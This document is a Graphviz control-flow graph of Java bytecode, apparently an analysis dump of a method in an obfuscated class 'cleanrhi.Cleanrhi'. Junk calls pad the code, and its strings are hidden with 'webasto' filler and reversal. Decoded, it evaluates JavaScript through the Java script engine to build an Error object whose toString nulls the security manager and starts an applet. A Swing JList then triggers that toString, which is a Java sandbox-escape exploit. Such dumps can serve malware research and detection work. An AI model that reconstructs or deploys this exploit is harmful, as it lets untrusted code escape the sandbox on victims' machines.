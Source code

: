 digraph "" {
    "r0 := @this: cleanrhi.Cleanrhi"
    "load.r r0"
    "r0 := @this: cleanrhi.Cleanrhi"->"load.r r0";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "pop"
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "push \"hello world!\""
    "pop"->"push \"hello world!\"";
    "push 3"
    "push \"hello world!\""->"push 3";
    "virtualinvoke <java.lang.String: java.lang.String substring(int)>"
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "push 0"
    "pop"->"push 0";
    "store.i i2"
    "push 0"->"store.i i2";
    "load.i i2"
    "store.i i2"->"load.i i2";
    "push 10"
    "load.i i2"->"push 10";
    "ifcmpge.i return"
    "push 10"->"ifcmpge.i return";
    "push \"asga\""
    "ifcmpge.i return"->"push \"asga\"";
    "push \"asga\""->"push \"asga\"";
    "push \"js\""
    "push \"asga\""->"push \"js\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"js\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r5"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r5";
    "store.r r5"->"load.r r0";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"push \"hello world!\"";
    "push \"hello world!\""->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int)>"->"pop";
    "new javax.script.ScriptEngineManager"
    "pop"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "load.r r5"
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"load.r r5";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "load.r r5"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"store.r r5";
    "store.r r5"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "push \";swebastoiwebastoht = egwebastoasswebastoem.rowebastorre;};\\\"pwebastoey\\\" nruwebastoter;)(twebastorats.telwebastoppa;)llwebastoun(regwebastoanaMytirucewebastoStes.metsyS.gwebastonal.avawebastoj {)(noitcnuf = gnwebastoirtSot.siwebastoht;)\\\"rowebastorre yM\\\"(rowebastorrE wen = rowebastorre rav\""
    "pop"->"push \";swebastoiwebastoht = egwebastoasswebastoem.rowebastorre;};\\\"pwebastoey\\\" nruwebastoter;)(twebastorats.telwebastoppa;)llwebastoun(regwebastoanaMytirucewebastoStes.metsyS.gwebastonal.avawebastoj {)(noitcnuf = gnwebastoirtSot.siwebastoht;)\\\"rowebastorre yM\\\"(rowebastorrE wen = rowebastorre rav\"";
    "push \"webasto\""
    "push \";swebastoiwebastoht = egwebastoasswebastoem.rowebastorre;};\\\"pwebastoey\\\" nruwebastoter;)(twebastorats.telwebastoppa;)llwebastoun(regwebastoanaMytirucewebastoStes.metsyS.gwebastonal.avawebastoj {)(noitcnuf = gnwebastoirtSot.siwebastoht;)\\\"rowebastorre yM\\\"(rowebastorrE wen = rowebastorre rav\""->"push \"webasto\"";
    "push \"\""
    "push \"webasto\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r6"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "new java.lang.StringBuffer"
    "pop"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "load.r r6"
    "dup1.r"->"load.r r6";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "load.r r6"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "ifeq load.r r0"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"load.r r5";
    "load.r r5"->"load.r r6";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "load.r r6"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "push \"rwebastoorwebastore\""
    "load.r r0"->"push \"rwebastoorwebastore\"";
    "push \"rwebastoorwebastore\""->"push \"webasto\"";
    "push \"webasto\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "push 1"
    "pop"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r30"
    "newarray"->"store.r $r30";
    "load.r $r30"
    "store.r $r30"->"load.r $r30";
    "load.r $r30"->"push 0";
    "push 0"->"load.r r5";
    "load.r r5"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"load.r r6";
    "load.r r6"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r30";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r30"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <cleanrhi.Cleanrhi: javax.swing.JList qrist>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <cleanrhi.Cleanrhi: javax.swing.JList qrist>";
    "fieldput <cleanrhi.Cleanrhi: javax.swing.JList qrist>"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean sffs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <cleanrhi.Cleanrhi: javax.swing.JList qrist>"
    "load.r r0"->"fieldget <cleanrhi.Cleanrhi: javax.swing.JList qrist>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.awt.Component add(java.awt.Component)>"
    "fieldget <cleanrhi.Cleanrhi: javax.swing.JList qrist>"->"virtualinvoke <cleanrhi.Cleanrhi: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"push 10";
    "push 10"->"store.i i2";
    "store.i i2"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"pop";
    "return"
    "pop"->"return";
    "virtualinvoke <cleanrhi.Cleanrhi: java.lang.Boolean xcccs()>"->"store.r r5";
    "store.r r5"->"load.i i2";
    "push 9"
    "load.i i2"->"push 9";
    "ifcmpeq.i inc.i i2 1"
    "push 9"->"ifcmpeq.i inc.i i2 1";
    "goto inc.i i2 1"
    "ifcmpeq.i inc.i i2 1"->"goto inc.i i2 1";
    "inc.i i2 1"
    "goto inc.i i2 1"->"inc.i i2 1";
    "goto load.i i2"
    "inc.i i2 1"->"goto load.i i2";
    "ifcmpge.i return"->"return";
}
